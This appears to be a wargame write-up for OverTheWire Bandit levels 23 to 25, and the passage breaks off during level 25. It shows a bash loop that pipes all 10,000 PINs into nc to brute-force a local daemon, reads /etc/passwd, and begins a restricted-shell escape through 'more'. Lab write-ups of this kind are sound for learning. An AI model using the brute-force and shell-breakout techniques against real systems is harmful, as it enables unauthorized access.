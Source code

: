 NOTE: This level requires you to create your own first shell-script. 
This is a very big step and you should be proud of yourself 
when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once 
executed, so you may want to keep a copy around…"


Password: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
### Bandit 24
"A daemon is listening on port 30002 and will give you the 
password for bandit25 if given the password for bandit24 and 
a secret numeric 4-digit pincode. There is no way to retrieve 
the pincode except by going through all of the 10000 combinations, 
called brute-forcing. 
You do not need to create new connections each time"

My solution:

#!/bin/bash
my_pass=gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
{
        while :; do
                for i in $(seq -w 0000 9999); do
                        echo "$my_pass $i"
                done
        done
} | nc localhost 30002 2>/dev/null | grep -v "Wrong! Please enter the correct current password and pincode"


Password: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
### Bandit 25
"Logging in to bandit26 from bandit25 should be fairly easy… 
The shell for user bandit26 is not /bin/bash, but something else. 
Find out what it is, how it works and how to break out of it."

This was an unintuitive slog.
I get an ssh key to jump into bandit26.
I cat /etc/passwd and I get that user bandit26 has a specific
shell: /usr/bin/showtext
I open that and run that:

#!/bin/sh
export TERM=linux
exec more ~/text.txt
exit 0

more: cannot open /home/bandit25/text.txt: No such file or directory
So, now I know where the pass is. How do I use more to get that?

We can use -n 1 to, for example, load 1 line at a time.
Remember that we want to 'stop' more so that we can input commands.
So we use the SSH private key, and jump into the werver with 'more'
